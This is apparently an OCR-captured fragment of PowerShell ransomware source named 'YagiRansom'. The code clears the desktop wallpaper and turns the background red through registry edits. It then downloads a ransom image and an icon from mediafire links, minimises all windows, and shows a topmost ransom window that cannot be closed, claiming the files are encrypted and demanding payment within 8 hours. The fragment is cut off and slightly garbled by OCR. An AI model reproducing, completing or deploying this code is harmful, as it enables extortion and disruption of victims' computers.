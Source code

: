 ```powershell
public int[] first = {COLOR_DESKTOP};
public static void RemoveWallPaper(){
SystemParametersInfo( SetDesktopBackground, 0, "", SendWinIniChange | UpdateIniFile );
RegistryKey regkey = Registry.CurrentUser.OpenSubKey("Control Panel\\Desktop", true);
regkey.SetValue(@"WallPaper", 0); regkey.Close();}
public static void SetBackground(byte r, byte g, byte b){ int[] elements = {COLOR_DESKTOP};
RemoveWallPaper();
System.Drawing.Color color = System.Drawing.Color.FromArgb(r,g,b);
int[] colors = { System.Drawing.ColorTranslator.ToWin32(color) };
SetSysColors(elements.Length, elements, colors);
RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\Colors", true);
key.SetValue(@"Background", string.Format("{0} {1} {2}", color.R, color.G, color.B));
key.Close();}}}
try { Add-Type -TypeDefinition $code -ReferencedAssemblies System.Drawing.dll }
finally {[CurrentUser.Desktop]::SetBackground(250, 25, 50)}}
function PopUpRansom {
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")  
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms") 
[void] [System.Windows.Forms.Application]::EnableVisualStyles() 
Invoke-WebRequest -useb https://www.mediafire.com/view/wlq9mlfrlonlcuk/yagi.png/file -Outfile $env:temp\YagiRansom.jpg
Invoke-WebRequest -useb https://www.mediafire.com/file/s4qcg4hk6bnd2pe/Yagi.ico/file -Outfile $env:temp\YagiRansom.ico
$shell = New-Object -ComObject "Shell.Application"
$shell.minimizeall()
$form = New-Object system.Windows.Forms.Form
$form.ControlBox = $false;
$form.Size = New-Object System.Drawing.Size(900,600) 
$form.BackColor = "Black" 
$form.MaximizeBox = $false 
$form.StartPosition = "CenterScreen" 
$form.WindowState = "Normal"
$form.Topmost = $true
$form.FormBorderStyle = "Fixed3D"
$form.Text = "YagiRansom"
$formIcon = New-Object system.drawing.icon ("$env:temp\YagiRansom.ico") 
$form.Icon = $formicon  
$img = [System.Drawing.Image]::Fromfile("$env:temp\YagiRansom.jpg")
$pictureBox = new-object Windows.Forms.PictureBox
$pictureBox.Width = 920
$pictureBox.Height = 370
$pictureBox.SizeMode = "StretchImage"
$pictureBox.Image = $img
$form.controls.add($pictureBox)
$label = New-Object System.Windows.Forms.Label
$label.ForeColor = "Cyan"
$label.Text = "All your files have been encrypted by YagiRansom!" 
$label.AutoSize = $true 
$label.Location = New-Object System.Drawing.Size(50,400) 
$font = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font 
$form.Controls.Add($label) 
$label1 = New-Object System.Windows.Forms.Label
$label1.ForeColor = "White"
$label1.Text = "But don
t worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours." 
$label1.AutoSize = $true 
$label1.Location = New-Object System.Drawing.Size(50,450)
$font1 = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font1
$form.Controls.Add($label1) 
$okbutton = New-Object System.Windows.Forms.Button;
```